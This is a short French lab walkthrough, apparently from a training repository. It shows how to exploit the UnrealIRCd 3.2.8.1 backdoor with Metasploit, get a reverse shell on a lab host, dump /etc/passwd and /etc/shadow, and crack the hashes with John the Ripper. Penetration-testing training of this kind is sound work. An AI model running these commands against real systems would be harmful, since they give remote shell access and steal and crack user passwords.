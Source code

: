 ## Exploitation d'UnrealIRCd avec Metasploit


### Commandes à exécuter sur la console Kali

```bash
msfconsole
search ircd
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 10.6.0.7
set RPORT 6667
set PAYLOAD cmd/unix/reverse
set LHOST 10.6.0.9
run
```
### Astuces:
Mettre en background : Ctrl + Z <br>
Reprendre sessions <br>
session + (numero id)


### Déchiffrer le hash des mots de passe

```bash
# Metasploit
cat /etc/passwd # copier coller dans un fichier passwd.dmp sur la Kali

# Kali
cat /etc/shadow # copier coller dans un fichier shadow.dmp sur la Kali

unshadow passwd.dmp shadow.dmp > credentials

cat /usr/share/wordlists/metasploitable2 # Fichier avec les mots de passe (attention, éviter les caractère type "@")

john --wordlist=/usr/share/wordlists/metasploitable2 credentials

```

![Déchiffrement du hash MD5](Images/dechiffrement_hash_mdp.png)

> Note : <br>
> Nous sommes dans un cas particulier mais la commande standard ressemble plus à cela :
```bash
 john --wordlist=/usr/share/wordlists/metasploitable2 --format=sha512crypt credentials 
 ```